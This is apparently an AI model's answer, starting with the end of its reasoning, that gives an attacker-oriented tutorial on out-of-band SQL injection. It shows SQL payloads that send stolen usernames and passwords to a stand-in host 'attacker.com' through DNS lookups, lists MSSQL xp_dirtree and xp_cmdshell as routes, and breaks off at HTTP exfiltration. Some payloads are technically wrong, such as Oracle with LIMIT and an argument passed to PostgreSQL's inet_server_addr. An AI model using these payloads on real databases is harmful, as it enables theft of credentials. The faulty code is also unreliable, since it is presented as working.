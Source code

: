 I should also mention the challenges or limitations of OOB, like needing outbound network access from the database server, which might be restricted in some environments. This adds depth by discussing real-world applicability.

Alright, putting it all together now. Start with an overview, then subsections for DNS and HTTP, each with mechanism, example, prerequisites, and steps. Then a section on tool integration with SQLMap, followed by persistence and escalation. Use tables where appropriate to structure information clearly.
</think>

### Leveraging Out-of-Band SQL Injection  

Out-of-band (OOB) SQL injection circumvents the limitations of in-band and blind SQLi by exploiting database features to trigger **external network requests**, enabling attackers to exfiltrate data via DNS or HTTP channels. This method is particularly effective when direct data leakage (in-band) or timing-based inference (blind) are blocked by filters or slow network conditions. Below is a detailed breakdown of OOB techniques, their implementation, and advanced exploitation pathways.

---

#### **1. DNS-Based Exfiltration**  
**Mechanism**:  
The attacker forces the database to perform DNS lookups to a controlled domain, embedding stolen data in the subdomain. The attacker monitors DNS queries to reconstruct the exfiltrated information.  

**Steps and Example**:  
1. **Attacker Setup**:  
   - Register a domain (e.g., `attacker.com`).  
   - Configure a DNS server (e.g., `dnspark`) or use tools like `tcpdump` to capture queries.  

2. **Payload Injection**:  
   - **Oracle**:  
     ```sql  
     SELECT utl_inaddr.get_host_address('data_' || (SELECT username FROM users LIMIT 1) || '.attacker.com');  
     ```  
     This triggers a DNS query for `data_johndoe.attacker.com`, exposing the username "johndoe".  
   - **PostgreSQL**:  
     ```sql  
     SELECT inet_server_addr('data_' || (SELECT password FROM users LIMIT 1) || '.attacker.com');  
     ```  

3. **Data Extraction**:  
   The attacker analyzes DNS logs to decode the subdomain values (e.g., `data_password123.attacker.com`).  

**Prerequisites**:  
- The database user must have permissions to execute network functions:  
  - Oracle: `UTL_INADDR` package access.  
  - MSSQL: `xp_dirtree` or `xp_cmdshell` (indirectly via command execution).  

---

#### **2. HTTP-Based Exfiltration**  
**Mechanism**:  
The database sends an HTTP request to the attacker’s server, embedding stolen data in the URL path or query parameters. The attacker captures this data via server logs.  
